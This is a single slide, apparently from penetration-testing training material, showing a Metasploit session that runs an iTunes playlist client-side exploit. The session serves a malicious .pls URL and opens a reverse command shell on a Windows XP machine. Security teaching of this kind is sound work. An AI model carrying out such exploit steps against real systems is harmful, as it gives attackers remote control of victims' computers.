

# Example Client Side Exploit
msf> exploit(apple_itunes_playlist) > exploit
[*] Started reverse handler
[*] Using URL: http://10.10.11.10:8080/mycoolplaylist.pls
[*] Server started.
[*] Exploit running as background job.

msf> exploit(apple_itunes_playlist) >
[*] Sending stage (474 bytes)
[*] Command shell session 1 opened (10.10.21.10:65535 -> 192.168.113.10:1075)
msf> exploit(apple_itunes_playlist) > sessions -i 1
[*] Starting interaction with 1...
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\System32\>

94